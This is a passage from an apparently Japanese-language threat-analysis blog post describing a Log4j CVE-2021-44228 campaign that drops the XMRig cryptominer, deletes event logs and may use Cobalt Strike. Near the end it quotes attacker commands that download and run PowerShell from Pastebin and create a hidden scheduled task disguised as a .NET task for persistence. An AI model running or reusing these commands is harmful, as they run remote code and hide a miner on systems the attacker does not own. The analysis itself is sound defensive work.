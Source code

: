

<p>少なくとも 2 つのケースで、mad_micky.bat スクリプトは、ユーザー エージェント Mozilla/5.0 (互換性あり; MSIE 10.0; Windows NT 6.2; Win64; x64; Trident/6.0; MAARJS) を持つ HTTP 接続で取得されました。これは、このユーザー エージェントがこれらのネットワークで確認された最初で唯一の例です。このユーザー エージェントは、工場出荷時に新しくインストールされた一部の ASUS デバイスで合法的に使用されているようです。ただし、新しいユーザー エージェントはこのアクティビティ中にのみ見られるため、疑わしいものです。</p>



<p>悪用に成功すると、サーバーはポート 1389 でコールバックを実行し、スクリプト ファイルを取得します。この例では、/xms.ps1 は base-64 でエンコードされた PowerShell スクリプトであり、ホストの実行ポリシーをバイパスして「mad_micky.bat」を呼び出します。</p>



<figure class="wp-block-image"><img src="https://assets-global.website-files.com/626ff4d25aca2edf4325ff97/62d2a548a73d901f998b427c_1-1.jpeg" alt="Log4j の危険な脆弱性 CVE-2021-44228 を悪用する暗号通貨マイニング コードのエクスプロイト"/></figure>



<p><em>図 1: PowerShell スクリプト xms.ps1 に関する追加の洞察</em></p>



<p>スナップショットは、影響を受けるサーバーのイベント ログの詳細を示し、mad_micky.bat ファイルのダウンロードにつながる成功した Log4j RCE を示しています。</p>



<figure class="wp-block-image"><img src="https://assets-global.website-files.com/626ff4d25aca2edf4325ff97/62d2a5485d3ddb97cd7d959a_1-2.jpeg" alt="Log4j の危険な脆弱性 CVE-2021-44228 を悪用する暗号通貨マイニング コードのエクスプロイト"/></figure>



<p><em>図 2: mad_micky.bat ファイルを強調表示するログ データ</em></p>



<p>実行可能ファイルとスクリプトを取得するために、追加の接続が開始されました。スクリプトには、韓国とウクライナにある 2 つの IP アドレスが含まれていました。マイナーを起動する実行ファイル xm.exe をダウンロードするために、ウクライナの IP への接続が確立されました。マイナーである XMRig Miner (この場合) は、複数のパブリック サイトからダウンロードできるオープン ソースのクロスプラットフォーム マイニング ツールです。次に確認された exe のダウンロードは、「wxm.exe」(f0cf1d3d9ed23166ff6c1f3deece19b4) でした。</p>



<figure class="wp-block-image"><img src="https://assets-global.website-files.com/626ff4d25aca2edf4325ff97/62d2a548633c395a4ad861e7_1-3.png" alt="Log4j の危険な脆弱性 CVE-2021-44228 を悪用する暗号通貨マイニング コードのエクスプロイト"/></figure>



<p><em>図 3: XMRig 実行可能ファイルに関する追加の洞察</em></p>



<p>韓国の IP への接続には、別のスクリプト (/2.ps1) と実行可能ファイル (LogBack.exe) の要求が含まれていました。このスクリプトは、SCM イベント ログ フィルターや PowerShell イベント ログ コンシューマーなど、ログに関連する実行中のタスクを削除します。このスクリプトは、Pastebin からのファイルも要求します。これは、Cobalt Strike ビーコン構成ファイルである可能性があります。ログの削除は、スケジュールされたタスクによって実行され、WMI には、イベントロガー、SCM イベント ログ フィルター、DSM イベント ログ コンシューマー、PowerShell イベント ログ コンシューマー、Windows イベント コンシューマー、BVTConsumer が含まれていました。</p>



<ul>
<li>構成ファイル (ホストされなくなりました): IEX (New-Object System.Net.Webclient) DownloadString('hxxps://pastebin.com/raw/g93wWHkR')</li>
</ul>



<p>Pastebin から要求された 2 番目のファイルは、もはや Pastebin によってホストされていませんが、schtasks コマンドの一部であるため、永続化を確立するために使用される可能性があります。</p>



<ul>
<li>schtasks /create /sc MINUTE /mo 5 /tn “\Microsoft\windows\.NET Framework\.NET Framework NGEN v4.0.30319 32” /tr “c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe - WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(”hxxps://pastebin.com/raw/bcFqDdXx”'))'” /F /ru システム</li>
</ul>

